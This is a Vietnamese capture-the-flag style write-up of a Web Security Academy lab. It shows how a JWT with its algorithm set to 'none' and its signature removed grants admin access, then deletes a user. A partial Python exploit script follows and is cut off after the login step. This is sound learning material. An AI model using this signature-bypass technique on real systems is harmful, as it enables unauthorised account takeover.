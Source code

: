 ### Đề bài

![image](https://hackmd.io/_uploads/S1gtGula6.png)

### Phân tích 
- tương tự bài trước mình đăng nhập và được trả và 1 token

![image](https://hackmd.io/_uploads/BJrrN_lpa.png)

![image](https://hackmd.io/_uploads/SJ1_N_eaa.png)

![image](https://hackmd.io/_uploads/HkgZSulaT.png)

vào JSON editor mình thử sửa trường sub thành administrator nhưng không thành công

![image](https://hackmd.io/_uploads/r1zwSOla6.png)

để ý tiêu đề JWT chứa một algtham số. Điều này cho máy chủ biết thuật toán nào đã được sử dụng để ký mã thông báo và do đó, thuật toán nào cần sử dụng khi xác minh chữ ký.
- Trong trường hợp này, algtham số được đặt thành none, biểu thị cái gọi là "JWT không bảo mật" thì sao ?

### Khai thác
- mình đã đặt lại thuật toán về none và xóa đi phần chữ ký phía sau và vào đượcu trang admin

![image](https://hackmd.io/_uploads/BJmDUuxaa.png)


vậy chúng ta đã có thể xóa user carlos với url ```/admin/delete?username=carlos```

![image](https://hackmd.io/_uploads/SJmgvulT6.png)

mình đã viết lại script khai thác
```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote
import jwt
import base64


session = requests.Session()
url = 'https://0a4b00b604f9701d8568f8fe00e60012.web-security-academy.net'

response = session.get(url + '/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False,
```
